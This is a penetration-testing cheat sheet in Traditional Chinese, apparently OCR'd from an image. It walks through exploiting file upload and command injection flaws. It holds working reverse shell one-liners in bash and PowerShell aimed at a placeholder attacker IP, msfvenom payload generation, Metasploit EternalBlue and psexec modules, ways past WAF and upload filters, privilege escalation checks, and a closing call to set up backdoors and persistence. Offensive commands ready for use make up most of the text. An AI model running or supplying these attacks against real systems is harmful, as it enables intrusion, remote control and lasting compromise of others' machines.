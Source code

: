 

## 🔍 **1. 發現點 (漏洞發現)**

\
✅ **未受限制的文件上傳 (Unrestricted File Upload)** → 可能導致遠端代碼執行 (RCE)\
✅ **命令注入 (Command Injection)** → 可能允許直接執行系統命令

***

🚀 **2. 測試 Payload (有效載荷測試)**\
📌 **文件上傳測試**
-------------

* 使用 **WebShell** (`.php`, `.aspx`, `.jsp`) 測試是否可以執行
* 嘗試 **繞過過濾機制** (MIME 類型過濾、文件擴展名黑名單、雙重擴展名 `.jpg.php`)
* 使用 [**revshells.com**](https://www.revshells.com/) 生成反向 Shell (Reverse Shell)

📌 **命令注入測試**

*   嘗試基本命令執行：

    ```bash
    whoami && uname -a
    ```

    ```cmd
    ipconfig && net user
    ```
* 測試常見繞過技巧 (`;`, `&&`, `||`, `|`, `$()`, `` ` ` ``)
* 嘗試 **Base64 / URL 編碼** 避開 WAF

***

## 🛠️ **3. 繞過技巧 (Bypass 技巧)**

\
✅ **使用 URL 編碼繞過 WAF**\
✅ **使用雙重擴展名 (`.jpg.php`, `.asp;.txt`) 上傳 WebShell**\
✅ **利用 HTTP 參數污染 (HTTP Parameter Pollution, HPP) 進行繞過**\
✅ **修改 `Content-Type` 為 `image/jpeg` 以繞過 MIME 過濾**\
✅ **嘗試 NTFS ADS (`file.asp::$DATA`) 在 Windows 伺服器上繞過檢測**

更多技巧可參考：[revshells.com](https://www.revshells.com/)

***

🎯 **4. 進一步測試 (深度利用)**\
🔹 **權限提升 (Privilege Escalation)**

* `sudo -l` → 查看當前用戶可以執行的 `sudo` 命令 (Linux)
* `whoami /priv` → 檢查 Windows 權限，查看是否有 `SeImpersonatePrivilege` (可用於 `Juicy Potato` 提權)

🔹 **反向 Shell 測試 (Reverse Shell Execution)**

*   **Linux Netcat 反向 Shell**

    ```bash
    bash -i >& /dev/tcp/攻擊者IP/攻擊者端口 0>&1
    ```
*   **Windows PowerShell 反向 Shell**

    ```powershell
    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('攻擊者IP', 攻擊者端口);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    ```

***

🔗 **5. 連鎖漏洞 (漏洞鏈接)**\
✅ **未受限制的文件上傳 (Unrestricted File Upload) → 上傳 WebShell (`cmd.aspx`)**\
✅ **命令注入 (Command Injection) → 直接 RCE (`ping 攻擊者IP`)**\
✅ **IIS 短檔名枚舉 (IIS Tilde Enumeration) → 洩露隱藏的 `.aspx` 文件**\
✅ **爆破完整檔名** (`.config`, `.asp`, `.txt`) → 找到敏感文件 (`admin_login.aspx`)\
✅ **SQL 注入 (SQLi) 測試 (`sqlmap -u "http://目標/admin_login.aspx?id=1"`)**\
✅ **進一步利用 RCE / 權限提升 (Privilege Escalation) 取得系統控制權**

***

## 🔥 **6. 常用命令與濫用技巧**

### 📌 **遠程桌面攻擊 (RDP Exploitation)**

```bash
xfreerdp /v:<目標IP> /u:<用戶名> /p:<密碼>
```

* 使用 RDP 連接 Windows 目標，可能進一步控制系統

### 📌 **Netcat 監聽與連接 (Netcat Listener & Connection)**

```bash
sudo nc -lvnp <PORT>
```

* 啟動 Netcat 監聽器，等待反向 Shell

```bash
nc -nv <攻擊者IP> <PORT>
```

* 手動連接目標機器的 Netcat Shell

### 📌 **Metasploit 漏洞利用**

```bash
use exploit/windows/smb/psexec
```

* 使用 `psexec` 針對 Windows SMB 進行遠端攻擊

```bash
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_psexec
```

* MS17-010 (永恆之藍漏洞) 攻擊，利用 SMB 取得 Shell

### 📌 **MSFVenom 生成 Payload**

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<攻擊者IP> LPORT=<PORT> -f elf > shell.elf
```

* 生成 Linux 反向 Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<攻擊者IP> LPORT=<PORT> -f exe > shell.exe
```

* 生成 Windows 反向 Shell Payload

### 📌 **WebShell 位置**

```bash
/usr/share/webshells/laudanum
/usr/share/nishang/Antak-WebShell
```

* `Laudanum` 和 `Nishang` WebShell 可用於滲透測試

***

### 🎯 **7. 權限提升與逃逸** 📌 **獲取互動式 Shell**

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

* 讓 Shell 變成交互式，可使用 `clear`, `nano` 等指令

### 📌 **VIM 逃逸 Shell**

```bash
vim -c ':!/bin/sh'
```

* 在受限制的環境 (`jail shell`) 中逃逸獲取完整 Shell

### 📌 **檢查 Sudo 權限**

```bash
sudo -l
```

* 檢查當前用戶是否可以執行 `sudo` 命令

### 📌 **查找 SUID 二進制文件**

```bash
find / -perm -4000 -type f 2>/dev/null
```

* 查找 SUID 權限的可執行文件，可能可用於提權

***

✅ **8. 下一步建議 (進一步攻擊)**\
📌 測試 **IIS 短檔名枚舉** (`IIS Short Name Scanner`)\
📌 嘗試 **SQL 注入 (`sqlmap`) 或 XSS 測試**\
📌 **獲取反向 Shell** → 提升權限 (`Privilege Escalation`)\
📌 **建立後門 / 保持存取權限** (`Persistence`)

這樣能夠將攻擊鏈條最大化，進一步滲透！💀🚀
